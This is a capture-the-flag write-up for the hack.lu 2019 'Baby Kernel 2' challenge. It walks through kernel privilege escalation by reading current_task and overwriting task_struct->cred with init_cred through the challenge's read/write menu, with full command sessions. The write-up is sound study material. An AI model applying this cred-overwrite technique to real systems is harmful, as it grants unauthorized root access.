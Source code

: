 # hack.lu CTF 2019

### Baby Kernel 2 - pwn , 202 pts, solves: 68



We are provided with a minimal kernel environment containing custom kernel module and client that communicates with it.

Having `read/write` primitive in kernel space we can escalate our privileges by changing `cred` field of the `task_struct` of our current task. Luckily we are provided with the `System.map` file containing all symbols from the target kernel.

Obtaining `current_task`  address:

```bash
➤ grep 'D current_task' System.map                                                     ffffffff8183a040 D current_task
```

Let's test if we can read from this address:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
(...)
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003372300
```

We have obtained `task_struct` address from the `current_task`. To escalate privileges to root we have to modify `task_struct->cred` field at offset `0x400` (offset obtained from the disassembly of the `commit_cred` function from the provided kernel image).  We will use global variable `init_cred`, which contains credentials of the `init` process that is running as `root`.

```bash
➤ grep init_cred System.map                                                                    ffffffff8183f4c0 D init_cred
```

To decompress the kernel image I've used this tool: `https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux`

Obtaining the offset to the `cred` field: (we could also use pwn tools, but why not like this)

```bash
➤ gdb -q ./vmlinux                                                                    
pwndbg: loaded 176 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./vmlinux...done.
pwndbg> disassemble commit_creds 
Dump of assembler code for function commit_creds:
   0xffffffff81050c50 <+0>:	push   rbp
   0xffffffff81050c51 <+1>:	mov    rbp,rsp
   0xffffffff81050c54 <+4>:	push   r13
   0xffffffff81050c56 <+6>:	mov    r13,QWORD PTR ds:0xffffffff8183a040
   0xffffffff81050c5e <+14>:	push   r12
   0xffffffff81050c60 <+16>:	push   rbx
   0xffffffff81050c61 <+17>:	mov    r12,QWORD PTR [r13+0x3f8]
   0xffffffff81050c68 <+24>:	cmp    QWORD PTR [r13+0x400],r12
   0xffffffff81050c6f <+31>:	jne    0xffffffff81050d66 <commit_creds+278>
```

The `task_struct->real_cred` at offset `0x3f8` holds our current `uid (1000)`. We have to modify `task_struct->cred` field at offset `0x400`.

What is left to do is to spawn a shell with the new credentials - or like in our case, just use `Read file` function that is now running as `root`:

```bash
➤ nc babykernel2.forfuture.fluxfingers.net 1337
flux_baby_2 opened
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 1
1
I need an address to read from. Choose wisely
> 
0xffffffff8183a040
0xffffffff8183a040
Got everything I need. Let's do it!
flux_baby_2 ioctl nr 901 called
We're back. Our scouter says the power level is: ffff888003373480
----- Menu -----
1. Readrandom: fast init done

2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 2
2
I need an offset to write to. Choose wisely - seriously now...
> 
0xffff888003373880     <-- task_struct->cred: 0xffff888003373480 + 0x400
0xffff888003373880
What about a value?
> 
0xffffffff8183f4c0     <-- init_cred
0xffffffff8183f4c0
Thanks, boss. I can't believe we're doing this!
flux_baby_2 ioctl nr 902 called
Amazingly, we're back again.
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 3
3
uid=0(root) gid=0(root)
----- Menu -----
1. Read
2. Write
3. Show me my uid
4. Read file
5. Any hintz?
6. Bye!
> 4 
4 
Which file are we trying to read?
> /flag
/flag
Here are your 0x35 bytes contents: 
flag{nicely_done_this_is_how_a_privesc_can_also_go}}
```



That's it! Thanks



